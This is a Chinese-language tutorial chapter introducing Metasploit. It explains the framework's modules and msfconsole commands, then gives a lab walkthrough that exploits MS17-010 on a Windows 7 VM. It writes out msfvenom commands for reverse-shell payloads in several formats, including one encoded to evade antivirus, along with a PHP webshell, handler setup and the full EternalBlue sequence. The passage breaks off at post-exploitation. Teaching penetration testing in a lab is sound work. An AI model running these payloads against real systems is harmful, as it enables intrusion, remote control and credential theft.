





# 第39章 Metasploit基础入门

> **难度等级：🟠 高等级**
>
> **预计学习时间：150分钟**
>
> **本章看点：Metasploit是什么、发展历史、架构组成、六大模块详解、msfconsole使用、常见命令、Payload生成、msfvenom使用、第一次渗透实战、5个真实案例**

::: tip 说明
恭喜你进入高级篇！

从这一章开始，
我们学习的内容会从"挖漏洞"转向"利用漏洞"和"后渗透"。

第一个要学的工具就是大名鼎鼎的 **Metasploit**！

什么是Metasploit？
简单说就是：
**渗透测试界的神器，
漏洞利用框架中的王者。**

不管你是新手还是老手，
Metasploit都是必备工具。

这一章我们从零开始，
带你走进Metasploit的世界：
- 什么是Metasploit？
- 它有哪些模块？
- 怎么用msfconsole？
- 怎么生成Payload？
- 第一次实战：用MSF打一个靶机

准备好了吗？
开始！
:::

---

## 📖 本章概述

::: tip 写在前面
前面我们学了很多Web漏洞，
比如SQL注入、XSS、文件上传等等。
学了这些漏洞之后，
我们能做什么呢？

我们能拿到网站的权限，
比如上传WebShell，
控制网站服务器。

但如果目标不是网站呢？
如果是一台服务器、一个内网、
一个域环境呢？

这时候我们就需要更强大的工具，
而Metasploit就是其中最著名的一个。

Metasploit是什么？
它是一个**漏洞利用框架**，
里面集成了成千上万的漏洞利用代码、
Payload、辅助模块...
简单说就是：
**别人写好的攻击代码，
你拿来就能用。**

有了Metasploit，
你不需要自己写漏洞利用代码，
只需要找到对应的模块，
设置参数，
然后run一下，
就能拿到Shell。

听起来很爽吧？
但不要高兴得太早，
Metasploit只是工具，
真正厉害的是使用工具的人。

这一章我们先来打基础，
了解Metasploit的基本概念和使用方法。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 理解Metasploit是什么、能做什么
- [x] 了解Metasploit的发展历史
- [x] 掌握Metasploit的六大模块
- [x] 熟练使用msfconsole的常用命令
- [x] 理解Payload、Shellcode、Exploit的概念
- [x] 会用msfvenom生成各种Payload
- [x] 能用MSF完成一次简单的渗透测试
- [x] 知道Metasploit的基本工作流程
- [x] 了解Meterpreter是什么
- [x] 为后续学习打下基础

---

## 🔍 什么是Metasploit？

### 1.1 概念

**Metasploit是一个开源的渗透测试框架，
它提供了一整套漏洞利用、Payload生成、后渗透等工具，
帮助安全人员发现和验证漏洞。**

说人话就是：
**Metasploit是一个大工具箱，
里面装满了各种黑客工具，
你可以用它来攻击目标、
提权、内网漫游等等。**

Metasploit的官方网站是：
https://www.metasploit.com/

### 1.2 发展历史

Metasploit的历史非常有趣，
让我们简单了解一下：

#### 2003年：诞生
- 由HD Moore在2003年创建
- 最初是一个用Perl写的小工具
- 目的是让漏洞利用代码的开发更简单

#### 2004年：v2.0发布
- 重写了架构
- 支持更多的漏洞和Payload

#### 2007年：v3.0发布
- 用Ruby完全重写
- 架构更清晰，扩展性更强
- 这是一个重要的里程碑

#### 2009年：被Rapid7收购
- Rapid7是一家安全公司
- 收购后Metasploit发展更快
- 推出了商业版（Metasploit Pro）

#### 现在：持续更新
- 每个月都有新的漏洞利用模块加入
- 已经是渗透测试的标准工具
- 全世界的安全人员都在使用

**图39-1 Metasploit发展历史时间轴**



### 1.3 版本介绍

Metasploit主要有几个版本：

| 版本 | 说明 | 价格 |
|------|------|------|
| **Metasploit Framework** | 开源免费版，功能最全（命令行） | 免费 |
| **Metasploit Community** | 社区版，有Web界面，功能有限 | 免费 |
| **Metasploit Express** | 专业版，自动化扫描 | 付费 |
| **Metasploit Pro** | 专业版，功能最强，适合企业 | 付费 |

我们学习的是 **Metasploit Framework**，
也就是免费开源的命令行版本。
它功能最全，
也是最常用的。

### 1.4 Metasploit能做什么？

Metasploit的功能非常强大，
主要包括：

1. **漏洞利用（Exploit）**
   - 利用各种漏洞获取目标权限
   - 涵盖操作系统、Web应用、数据库等各种漏洞
   - 内置了几千个漏洞利用模块

2. **Payload生成**
   - 生成各种类型的Shell
   - 支持Windows、Linux、Mac、Android等
   - 可以生成exe、dll、apk、elf等各种格式

3. **后渗透（Post-Exploitation）**
   - 拿到Shell之后的各种操作
   - 提权、信息收集、横向移动
   - 窃取密码、截图、键盘记录...

4. **辅助模块（Auxiliary）**
   - 端口扫描、服务识别
   - 漏洞扫描、密码爆破
   - 各种辅助工具

5. **免杀（Evading）**
   - 各种绕过杀毒软件的技术
   - 编码、加密、注入...

简单说：
**只有你想不到，没有MSF做不到的。**

当然，
这是夸张的说法，
但Metasploit确实非常强大。

> 💡 **大白话理解Metasploit**
>
> 如果把渗透测试比作修车：
>
> - **进阶篇**教你自己造扳手、自己磨螺丝刀——从零开始写攻击代码
> - **MSF**给了你一个**超级工具箱**——里面有成千上万种工具，都是老师傅造好的
>
> 具体来说：
> - **Exploit模块** = 各种规格的"开锁器"（针对不同的门锁/漏洞）
> - **Payload模块** = 开了门之后"你要干什么"（装摄像头/偷东西/装后门）
> - **Auxiliary模块** = 行动前的"侦察工具"（望远镜/监听器/金属探测仪）
> - **Post模块** = 进去之后的"行动工具"（开保险柜/复制钥匙/消除指纹）
> - **Encoder模块** = Payload的"伪装服"（让杀毒软件认不出来）
> - **Nop模块** = 攻击代码中的"缓冲垫"（让目标更容易命中）
>
> 最厉害的是：**这些模块可以自由组合**。
> 就像乐高积木一样：
> Exploit（怎么进去）+ Payload（进去干啥）+ Encoder（怎么伪装）= 一套完整的攻击方案。
>
> 别人花三天写的攻击代码，你用MSF三分钟就能组装出来。
> 这就是**框架的力量**。

---

## 🏗️ Metasploit的架构

### 2.1 六大模块

Metasploit的核心是**模块（Module）**。
所有的功能都封装成模块，
你只需要选择对应的模块使用就行。

Metasploit主要有六大类模块：

```
Metasploit
├── Exploits（漏洞利用模块）
├── Payloads（攻击载荷模块）
├── Auxiliary（辅助模块）
├── Post（后渗透模块）
├── Encoders（编码器模块）
└── Nops（空指令模块）
```

**图39-2 Metasploit六大模块架构图**



让我们一个个来看。

### 2.2 Exploits（漏洞利用模块）

**Exploit就是漏洞利用代码。**

比如MS17-010（永恒之蓝）漏洞，
Metasploit里就有对应的exploit模块，
你只需要设置目标IP，
然后run，
它就会自动利用漏洞，
给你返回一个Shell。

**Exploit的分类方式有很多：**

#### 按平台分
- windows（Windows系统漏洞）
- linux（Linux系统漏洞）
- unix（Unix系统漏洞）
- android（安卓漏洞）
- osx（苹果系统漏洞）
- web（Web应用漏洞）
- ...

#### 按类型分
- remote（远程漏洞利用）
- local（本地提权漏洞）
- client（客户端漏洞，比如浏览器、Office）
- ...

#### 按位置分
在Metasploit中的路径是：
`exploits/[平台]/[类型]/[具体漏洞]`

比如：
- `exploit/windows/smb/ms17_010_eternalblue`
- `exploit/multi/handler`（这个是handler，用来接收Shell的）
- `exploit/linux/local/...`

简单说：
**Exploit就是"怎么打进去"的方法。**

### 2.3 Payloads（攻击载荷模块）

**Payload就是打进去之后，要在目标上执行的代码。**

比如你用一个漏洞打进去了，
那你想让目标做什么呢？
- 给你返回一个Shell？
- 执行一条命令？
- 弹一个计算器？
- 安装后门？

这些就是Payload干的事。

**Payload的常见类型：**

#### 1. Singles（独立Payload）
- 完整的、独立的Payload
- 不需要依赖其他东西
- 体积比较大

比如：
- `windows/shell_bind_tcp`（绑定Shell）
- `windows/meterpreter/reverse_tcp`（Meterpreter反向连接）

#### 2. Stagers（传输器Payload）
- 很小的一段代码
- 作用是建立连接，然后下载更大的Payload
- 体积小，适合漏洞利用空间有限的情况

比如：
- `windows/shell/reverse_tcp`（先reverse_tcp连上，然后下载shell）
- 结构是：`[stage]/[stager]`

#### 3. Stages（传输体Payload）
- 被Stagers下载的那部分
- 就是真正的功能代码

举个例子帮助理解：
- **Singles**：就像一个完整的软件，直接就能用
- **Stagers + Stages**：就像一个下载器，先下载安装包，再安装

**图39-3 Payload三种类型结构对比图**



**常见的Payload：**

| Payload | 说明 |
|---------|------|
| `windows/meterpreter/reverse_tcp` | Windows下的Meterpreter，反向TCP连接 |
| `windows/meterpreter/bind_tcp` | Windows下的Meterpreter，绑定TCP端口 |
| `linux/x86/meterpreter/reverse_tcp` | Linux下的Meterpreter |
| `windows/shell/reverse_tcp` | Windows下的普通CMD Shell，反向连接 |
| `cmd/unix/reverse_bash` | Linux下的Bash反向Shell |
| `android/meterpreter/reverse_tcp` | 安卓的Meterpreter |
| `osx/x86/shell_reverse_tcp` | Mac的反向Shell |

**最重要的概念：Meterpreter**

Meterpreter是Metasploit最强大的Payload，
它是一个高级的、动态可扩展的Shell。
和普通的CMD Shell不一样，
Meterpreter有超级多功能，
我们下一章会详细讲。

简单说：
**Payload就是"打进去之后干什么"。**

### 2.4 Auxiliary（辅助模块）

**Auxiliary是辅助模块，
用来做信息收集、扫描、爆破等工作。**

这些模块不会给你Shell，
但是它们是渗透测试中必不可少的。

**常见的辅助模块类型：**

#### 1. 扫描类（Scanner）
- 端口扫描：`auxiliary/scanner/portscan/tcp`
- 服务识别：各种服务的指纹识别
- 漏洞扫描：比如MS17-010扫描、永恒之蓝扫描
- 目录扫描：Web目录扫描

#### 2. 爆破类（Brute Force）
- SSH爆破：`auxiliary/scanner/ssh/ssh_login`
- FTP爆破：`auxiliary/scanner/ftp/ftp_login`
- MySQL爆破：`auxiliary/scanner/mysql/mysql_login`
- SMB爆破：`auxiliary/scanner/smb/smb_login`
- ...几乎所有服务都有爆破模块

#### 3. 信息收集类
- 收集各种信息
- SNMP信息收集
- DNS信息收集
- ...

#### 4. 其他
- 拒绝服务（DoS）
- 伪造（Spoofing）
- 各种工具

简单说：
**Auxiliary就是"打之前做准备"的工具。**

### 2.5 Post（后渗透模块）

**Post是后渗透模块，
就是拿到Shell之后，
用来做各种后渗透操作的。**

比如你已经拿到了Meterpreter Shell，
接下来想做什么呢？
- 提权？
- 抓取密码？
- 截图？
- 键盘记录？
- 横向移动？
- 持久化？

这些都可以用Post模块来做。

**常见的Post模块类型：**
- 信息收集：收集目标系统的各种信息
- 提权：提升权限
- 凭据窃取：抓取各种密码、Hash
- 键盘记录：记录用户的键盘输入
- 屏幕截图：截屏幕
- 持久化：安装后门，保持访问
- 网络相关：代理、端口转发、内网扫描
- ...

Post模块是按平台分类的：
- `post/windows/...`（Windows后渗透）
- `post/linux/...`（Linux后渗透）
- `post/android/...`（安卓后渗透）
- ...

简单说：
**Post就是"打进去之后干什么"的工具。**

### 2.6 Encoders（编码器模块）

**Encoders是编码器，
用来对Payload进行编码/加密，
目的是绕过杀毒软件。**

杀毒软件会根据特征码来识别病毒，
如果你的Payload被杀毒软件识别了，
就可以用编码器编码一下，
改变特征码，
看看能不能绕过。

**常见的编码器：**
- `x86/shikata_ga_nai`：最著名的编码器，多态编码
- `x86/alpha_mixed`：字母数字混合编码
- `x86/alpha_upper`：大写字母编码
- `x86/countdown`：倒计时编码
- ...

注意：
**编码器不是万能的，
现在的杀毒软件都很智能，
单纯编码已经很难绕过了。
免杀是一个专门的课题，
后面会讲。**

简单说：
**Encoders就是"给Payload化装，让杀毒软件认不出来"。**

### 2.7 Nops（空指令模块）

**Nops是空指令模块，
用来生成空指令雪橇（NOP Sled）。**

什么是空指令？
就是什么都不做的指令，
比如x86的`nop`指令（0x90）。

NOP Sled是什么？
就是一大堆nop指令堆在一起。
为什么需要这个？
在漏洞利用中，
有时候我们不确定Shellcode的精确位置，
就用一大堆nop填充，
只要跳到nop区域，
就会一直滑到Shellcode那里。

就像滑雪一样，
从雪坡上滑下来，
总能滑到终点。
所以叫"雪橇"（Sled）。

这个在现代漏洞利用中用得越来越少了，
但概念还是要了解的。

简单说：
**Nops就是"让Shellcode更容易命中"的东西。**

---

## 🖥️ msfconsole使用指南

### 3.1 启动msfconsole

Metasploit有好几个交互界面，
但最常用、最强大的是 **msfconsole**，
也就是命令行交互界面。

启动方法很简单，
在终端输入：
```bash
msfconsole
```

等一会儿就会进入msf的命令行界面，
大概长这样：
```
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_| %%]
 [% |        ||  _  ||   _||  _  ||    .,a$a$  ||  _  ||  ||  -__||  ||   _|%%%]
 [% |__|__|__||_____||____||___._||%$a$a$$$$   ||_____||__||_____||__||____|%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|            |%%%%%%%%%%_%%%%%%%%%%%%%%_%%%_]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| --==##    __|__|__|__|__|__|||]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| --==##   |__  |  |  |  |  |||]

       =[ metasploit v6.x.x-dev                         ]
+ -- --=[ 2200 exploits - 1167 auxiliary - 395 post       ]
+ -- --=[ 608 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                        ]

msf6 >
```

看到`msf6 >`这个提示符，
就说明启动成功了。

**图39-6 msfconsole启动界面实景图**


### 3.2 常用命令

msfconsole的命令很多，
我们先从最基础的开始。

#### help - 帮助

查看帮助信息：
```
msf6 > help
```

或者查看某个命令的帮助：
```
msf6 > help search
```

#### search - 搜索模块

这是最常用的命令之一，
用来搜索模块。

比如搜索MS17-010相关的模块：
```
msf6 > search ms17-010
```

搜索结果会显示：
- 模块的名字
- 模块的类型（exploit/auxiliary/post...）
- 模块的等级（normal/good/excellent...）
- 模块的描述

**搜索技巧：**
- `search type:exploit platform:windows ms17`：搜索Windows平台下的exploit，包含ms17
- `search name:eternalblue`：按名字搜索
- `search cve:CVE-2017-0144`：按CVE编号搜索
- `search type:auxiliary scanner`：搜索辅助模块中的扫描器

#### use - 使用模块

找到想用的模块后，
用use来加载模块：

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

或者直接用编号：
```
msf6 > search ms17-010
Matching Modules
================

   #  Name                                      Rank     Description
   -  ----                                      ----     -----------
   0  exploit/windows/smb/ms17_010_eternalblue  great    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       normal   MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      normal   MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010        normal   MS17-010 SMB RCE Detection

msf6 > use 0
```

用`use 0`就会加载第0个模块。

加载模块后，
提示符会变成：
```
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

#### info - 查看模块信息

查看当前模块的详细信息：
```
msf6 exploit(...) > info
```

会显示：
- 模块的名字
- 模块的等级
- 作者
- 描述
- 漏洞参考（CVE、MSB等）
- 支持的目标
- 所有可配置的选项
- 等等

#### show options - 查看选项

查看这个模块有哪些参数需要设置：
```
msf6 exploit(...) > show options
```

会显示一个表格，
包括：
- 选项名（Name）
- 当前设置（Current Setting）
- 是否必填（Required）
- 描述（Description）

#### set / unset - 设置/取消设置参数

设置参数用set：
```
msf6 exploit(...) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.1.100
```

取消设置用unset：
```
msf6 exploit(...) > unset RHOSTS
```

设置Payload：
```
msf6 exploit(...) > set PAYLOAD windows/meterpreter/reverse_tcp
```

设置LHOST（本地IP，反向连接用）：
```
msf6 exploit(...) > set LHOST 192.168.1.1
```

#### show payloads - 查看可用Payload

查看这个exploit支持哪些Payload：
```
msf6 exploit(...) > show payloads
```

#### show targets - 查看目标类型

查看这个exploit支持哪些目标（系统版本）：
```
msf6 exploit(...) > show targets
```

设置目标：
```
msf6 exploit(...) > set TARGET 0
```

#### run / exploit - 执行

设置好参数后，
就可以执行了：

```
msf6 exploit(...) > run
```

或者：
```
msf6 exploit(...) > exploit
```

两者是一样的。

如果成功，
就会拿到一个Shell。

**图39-4 msfconsole标准工作流程图**



#### back - 返回上一级

退出当前模块，回到msf主界面：
```
msf6 exploit(...) > back
msf6 >
```

#### sessions - 管理会话

如果你有多个活跃的会话（Shell），
用sessions来管理：

列出所有会话：
```
msf6 > sessions -l
```

进入某个会话：
```
msf6 > sessions -i 1
```
（-i 后面是会话ID）

后台运行当前会话：
```
meterpreter > background
```
或者按 `Ctrl+Z`

杀掉某个会话：
```
msf6 > sessions -k 1
```

#### db_nmap - 数据库+Nmap扫描

msf有数据库功能，
可以把扫描结果存到数据库里。

扫描：
```
msf6 > db_nmap -sV 192.168.1.0/24
```

查看主机：
```
msf6 > hosts
```

查看服务：
```
msf6 > services
```

### 3.3 其他常用命令

| 命令 | 说明 |
|------|------|
| `banner` | 显示banner（启动画面） |
| `version` | 显示版本 |
| `connect` | 连接到远程主机（类似nc） |
| `route` | 添加路由（内网渗透用） |
| `load` | 加载插件 |
| `irb` | 进入Ruby交互环境（高级用法） |
| `makerc` | 把刚才的命令保存到文件 |
| `resource` | 执行脚本文件 |
| `exit` / `quit` | 退出msfconsole |

> 💡 **大白话说"反弹Shell"为什么是反向连接**
>
> 很多人不理解：为什么渗透测试中几乎都用**反向连接（reverse_tcp）**，而很少用**正向连接（bind_tcp）**？
>
> 用一个生活中的场景来理解：
>
> **正向连接（bind_tcp）** = 你在目标家里开了扇门，等你下次来的时候从这个门进去。
> - 问题1：对方的防火墙可能把这扇门堵死了（目标有入站规则限制）
> - 问题2：你需要知道目标的IP地址（但内网地址你访问不到）
> - 问题3：保安巡逻时发现了这扇新增的门（容易被发现）
>
> **反向连接（reverse_tcp）** = 你给目标留下一个"传呼机"（Payload），告诉他"有空给我打电话"。
> - 目标主动打电话回来（出站连接），防火墙基本不拦出站
> - 你只需要有自己的IP（攻击机），不需要知道目标IP
> - 就像你让对方主动联系你，比你自己找上门要容易得多
>
> **Handler是什么？**
> 就是你家里的"电话总机"——你在`msfconsole`里设置了`exploit/multi/handler`，相当于架着一部电话在那等。目标执行Payload后主动"打电话"回来，总机接通，你就拿到Shell了。
>
> 这就是为什么渗透测试中90%以上都用反向连接：
> **让目标主动来找你，比你自己找上门容易一万倍。**

---

## 💣 Payload与msfvenom

### 4.1 什么是msfvenom？

**msfvenom是Metasploit的Payload生成工具，
用来生成各种格式的Payload。**

以前msf有两个工具：
- `msfpayload`：生成Payload
- `msfencode`：编码Payload

后来合并成了一个工具，
就是`msfvenom`。

msfvenom可以：
- 生成各种平台的Payload（Windows、Linux、Mac、Android...）
- 生成各种格式（exe、dll、elf、apk、war、php、jsp...）
- 对Payload进行编码、加密
- 自定义Payload的参数

### 4.2 msfvenom基本用法

#### 查看帮助
```bash
msfvenom -h
```

#### 列出所有Payload
```bash
msfvenom -l payloads
```

#### 基本语法
```bash
msfvenom -p <payload> [payload选项] -f <格式> -o <输出文件>
```

### 4.3 常用Payload生成示例

下面是一些最常用的Payload生成命令，
收藏起来，以后常用。

#### Windows相关

**1. Windows普通反向TCP Shell（exe）**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o shell.exe
```

**2. Windows Meterpreter反向TCP（exe）**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o meterpreter.exe
```

**3. Windows DLL格式**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f dll -o meterpreter.dll
```

**4. 编码后的exe（加壳尝试免杀）**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded.exe
```
`-e`指定编码器，`-i`指定编码次数。

#### Linux相关

**1. Linux反向Shell（elf）**
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f elf -o shell.elf
```

**2. Linux Meterpreter（elf）**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f elf -o meterpreter.elf
```

#### Web相关

**1. PHP一句话（WebShell）**
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o shell.php
```

**2. JSP一句话**
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o shell.jsp
```

**3. WAR包（适用于Tomcat等）**
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f war -o shell.war
```

#### Android相关

**安卓Meterpreter（apk）**
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -o app.apk
```

### 4.4 监听Handler

生成了Payload，
还需要在本地监听，
等待目标连接回来。

方法：
```bash
msfconsole
```

然后：
```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.1
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > run
```

或者简写：
```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > exploit -j
```

`exploit -j` 表示后台运行（job模式）。

当目标运行了Payload，
就会连接回来，
你就能拿到Meterpreter Shell了。

---

## 🎯 第一次实战：用MSF打靶机

光说不练假把式，
我们来走一遍完整的流程。

### 5.1 环境准备

**攻击机：** Kali Linux（IP：192.168.1.100）
**靶机：** Windows 7 （IP：192.168.1.200，未打MS17-010补丁）

目标：利用MS17-010漏洞拿下Windows 7的权限。

### 5.2 第一步：信息收集

先扫一下靶机开了什么端口，
有没有MS17-010漏洞。

```
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.200
RHOSTS => 192.168.1.200
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
```

如果输出类似：
```
[+] 192.168.1.200:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7600 x64 (64-bit)
```

说明存在MS17-010漏洞，可以利用。

### 5.3 第二步：选择Exploit模块

用永恒之蓝的exploit：
```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

### 5.4 第三步：设置参数

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.200
RHOSTS => 192.168.1.200

msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.100
LHOST => 192.168.1.100

msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
LPORT => 4444
```

检查一下参数：
```
msf6 exploit(...) > show options
```

确认RHOSTS、PAYLOAD、LHOST、LPORT都设置正确。

### 5.5 第四步：执行

```
msf6 exploit(...) > run
```

然后等待...

如果成功，会看到：
```
[*] Started reverse TCP handler on 192.168.1.100:4444
[*] 192.168.1.200:445 - Connecting to target for exploitation.
[+] 192.168.1.200:445 - =^..^=
[+] 192.168.1.200:445 - =^..^=
[*] 192.168.1.200:445 - =^..^=
[*] Sending stage (201283 bytes) to 192.168.1.200
[*] Meterpreter session 1 opened (192.168.1.100:4444 -> 192.168.1.200:49158) at ...

meterpreter >
```

看到`meterpreter >`这个提示符，
说明成功了！
你已经拿到了目标的Meterpreter Shell。

**图39-5 MS17-010永恒之蓝攻击时序图**



### 5.6 第五步：验证权限

来看看我们有什么权限：

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

`NT AUTHORITY\SYSTEM` 是什么？
就是Windows的系统权限，
最高权限！

再看看系统信息：
```
meterpreter > sysinfo
Computer    : WIN-XXXX
OS          : Windows 7 (Build 7600).
Architecture: x64
Meterpreter : x64/windows
```

完美！
我们用MS17-010直接拿到了系统权限。

### 5.7 第六步：后渗透操作

拿到Shell之后，
我们可以做很多事情，
比如：

**查看进程：**
```
meterpreter > ps
```

**截图：**
```
meterpreter > screenshot
```

**抓取密码Hash：**
```
